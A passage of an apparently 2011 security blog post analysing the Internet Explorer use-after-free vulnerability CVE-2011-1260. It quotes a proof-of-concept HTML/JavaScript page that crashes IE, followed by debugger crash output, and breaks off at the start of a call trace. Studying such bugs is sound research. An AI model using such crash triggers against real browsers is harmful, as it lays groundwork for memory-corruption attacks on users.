 ```yaml
---
title: Post-mortem Analysis of a Use-After-Free Vulnerability CVE-2011-1260
date: 2011-07-07T13:00:00.006-04:00
draft: false
type: posts
summary: Recently, I've been looking into the exploitation of use-after-free vulnerabilities. This class of bug is very application specific, but armed with just the right amount of knowledge these vulnerabilities can be exploited to bypass most modern OS exploit mitigations. After reading Nephi Johnson's (@d0c_s4vage) excellent article[1] on exploiting an IE
categories: use-after-free,reverse engineering
---
```

# Post-mortem Analysis of a Use-After-Free Vulnerability CVE-2011-1260
 <br/>
 <br/>

Recently, I've been looking into the exploitation of use-after-free vulnerabilities. This class of bug is very application specific, but armed with just the right amount of knowledge these vulnerabilities can be exploited to bypass most modern OS exploit mitigations. After reading Nephi Johnson's (@d0c\_s4vage) excellent article\[[1](#3_1)\] on exploiting an IE use-after-free vulnerability, I decided to ride his coattails and show the steps I used to analyze his proof-of-concept crash code.  
  
As shown in his blog post, here is Nephi's test case that crashes IE:  

<html><br />    <body><br />        <script language='javascript'><br />            document.body.innerHTML += "<object align='right' hspace='1000'   width='1000'>TAG\_1</object>";<br />            document.body.innerHTML += "<a id='tag\_3' style='bottom:200cm;float:left;padding-left:-1000px;border-width:2000px;text-indent:-1000px' >TAG\_3</a>";<br />            document.body.innerHTML += "AAAAAAA";<br />            document.body.innerHTML += "<strong style='font-size:1000pc;margin:auto -1000cm auto auto;' dir='ltr'>TAG\_11</strong>";<br />        </script><br />    </body><br /></html>

Internet Explorer crashes at mshtml!CElement::Doc+0x2  
  

76c.640): Access violation - code c0000005 (first chance)

First chance exceptions are reported before any exception handling.

This exception may be expected and handled.

eax=00000000 ebx=004aedc0 ecx=004e00e9 edx=00000000 esi=0209e138 edi=00000000

eip=6d55c402 esp=0209e10c ebp=0209e124 iopl=0         nv up ei pl zr na pe nc

cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246

mshtml!CElement::Doc+0x2:

6d55c402 8b5070          mov     edx,dword ptr \[eax+70h\] ds:0023:00000070=????????

  
Here is the order of execution leading to the crash:  
  

mshtml!CTreeNode::ComputeFormats+0x42
